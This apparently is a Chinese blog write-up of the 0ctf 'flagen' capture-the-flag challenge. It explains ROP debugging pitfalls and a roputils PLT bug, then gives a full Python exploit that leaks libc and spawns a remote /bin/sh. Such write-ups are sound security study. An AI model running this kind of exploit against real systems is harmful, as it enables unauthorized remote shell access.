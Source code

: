 ```yaml
---
title: flagen
author: tank96a
layout: post
categories:
  - article
tags:
  - exploit
---
```


##flagen

调试过程中发现的问题1：

{% highlight python %}
     payload1 = "1\n" + p32(leave) + "h"*77 + "a"*33 + p32(newEbp) + p32(pop1ret) + p32(newDest) + \
                rop.call(puts,rop.got('read')) + \
                p32(readLine) + p32(pop2ret) + p32(newEbp) + p32(count) + p32(leave) + "\n4\n"
{% endhighlight %}
                
这里的p32(pop2ret),就有可能破坏掉ebp,因为pop pop ret 中间大都有一条pop ebp,如果ebp此时被破坏了，不再是事先设定好的newEbp，那么紧接着的leave ret指令也就是失去了效果。

调试过程中发现的问题2：

如果设置count的大小为 0x20，这是打印看一下print payload1.encode('hex') 你会发现payload中出现了00,势必破坏了payload 所以要写成这样count = 0x01010101

调试过程中发现的问题3：

readLine = 0x080486cb # int read_str(char *a1, int length) 如果让readLine =rop.plt('read')可以吗？这里read函数需要3个参数，第一个是0，这样在payload中不可避免的出现了00,会导致在leetify函数中出现截断现象，rop不能继续进行下去，所以这里只能用readLine = 0x080486cb

for ( var_110 = str; *var_110; ++var_110 ) {......}

调试过程中发现的问题4：

from roputils import * 发现该模块的一个bug,当你使用rop.plt('puts')得到的却是printfPlt,相反rop.plt('printf')确是putsPlt 通过调试roputils的代码，发现它在生成plt字典的方法就有问题，没有考虑到本题的特殊情况。可以用readelf -W -a flagen查看一下， 两个位置正好颠倒一下。
{% raw %}
<pre>
Relocation section '.rel.plt' at offset 0x3f8 contains 13 entries:
 Offset     Info    Type                Sym. Value  Symbol's Name
0804b00c  00000107 R_386_JUMP_SLOT        00000000   read
**0804b010  00000807 R_386_JUMP_SLOT        00000000   puts**
0804b014  00000307 R_386_JUMP_SLOT        00000000   free
0804b018  00000407 R_386_JUMP_SLOT        00000000   alarm
0804b01c  00000507 R_386_JUMP_SLOT        00000000   __stack_chk_fail
0804b020  00000607 R_386_JUMP_SLOT        00000000   strcpy
0804b024  00000707 R_386_JUMP_SLOT        00000000   malloc
**0804b028  00000207 R_386_JUMP_SLOT        00000000   printf**
0804b02c  00000907 R_386_JUMP_SLOT        00000000   __gmon_start__
0804b030  00000a07 R_386_JUMP_SLOT        00000000   __libc_start_main
0804b034  00000b07 R_386_JUMP_SLOT        00000000   setvbuf
0804b038  00000c07 R_386_JUMP_SLOT        00000000   snprintf
0804b03c  00000d07 R_386_JUMP_SLOT        00000000   atoi

Symbol table '.dynsym' contains 17 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
     0: 00000000     0 NOTYPE  LOCAL  DEFAULT  UND 
     1: 00000000     0 FUNC    GLOBAL DEFAULT  UND read@GLIBC_2.0 (2)
**     2: 00000000     0 FUNC    GLOBAL DEFAULT  UND printf@GLIBC_2.0 (2)**
     3: 00000000     0 FUNC    GLOBAL DEFAULT  UND free@GLIBC_2.0 (2)
     4: 00000000     0 FUNC    GLOBAL DEFAULT  UND alarm@GLIBC_2.0 (2)
     5: 00000000     0 FUNC    GLOBAL DEFAULT  UND __stack_chk_fail@GLIBC_2.4 (3)
     6: 00000000     0 FUNC    GLOBAL DEFAULT  UND strcpy@GLIBC_2.0 (2)
     7: 00000000     0 FUNC    GLOBAL DEFAULT  UND malloc@GLIBC_2.0 (2)
**     8: 00000000     0 FUNC    GLOBAL DEFAULT  UND puts@GLIBC_2.0 (2)**
     9: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
    10: 00000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@GLIBC_2.0 (2)
    11: 00000000     0 FUNC    GLOBAL DEFAULT  UND setvbuf@GLIBC_2.0 (2)
    12: 00000000     0 FUNC    GLOBAL DEFAULT  UND snprintf@GLIBC_2.0 (2)
    13: 00000000     0 FUNC    GLOBAL DEFAULT  UND atoi@GLIBC_2.0 (2)
....
</pre>
{% endraw %}

考虑到这个，以后就不能完全相信模块的这个函数调用。有的时候pop2ret=rop.gadget('pop', n=3)这种指令得到的地址中间可能会出现00，从而发生截断现象。所以虽然方便，但还是打印出来看一下为好。

{% highlight python %}
from roputils import *

rop=ROP('/root/Desktop/0ctf/flagen')
newEbp =rop.section('.bss')+0x400 
leave =rop.gadget('leave')   #0x080485d8  leave; ret
newDest =rop.got('__stack_chk_fail')   #0x0804b01c 
popRet=rop.gadget('pop', n=1)   #pop ebx; ret
puts = 0x08048510 #puts@plt
readLine = 0x080486cb
count = 0x01010101
sh = newEbp + 4*4  

#ip='127.0.0.1'   socat TCP-LISTEN:5149,reuseaddr,fork EXEC:/xxx/flagen
ip = '202.112.26.106'
conn = Proc(host=ip, port=5149)
#conn=Proc('/root/Desktop/0ctf/flagen')

#0x10c=4*9+77*3+1
payload1 = "1\n" + p32(leave) + "h"*77 + "a"*33 + p32(newEbp) + p32(popRet) + p32(newDest) + \
            rop.call(puts,rop.got('read')) + \
            p32(readLine) + p32(leave) + p32(newEbp) + p32(count) + "\n4\n"
print payload1.encode('hex')
conn.read_until("Your choice: ")
conn.write(payload1) 
conn.read_until("Your choice: ")
readAddr = conn.read_p32() 
print(hex(readAddr))

libc=ROP('/root/Desktop/0ctf/libc.so.6') 
#libc=ROP('/lib32/libc.so.6') 
libc.set_base(readAddr, 'read')
conn.write(p32(0xdeadbeef) + p32(libc.addr('system')) + p32(popRet) + p32(sh) + '/bin//sh\n' )
conn.wait(0)
{% endhighlight %}

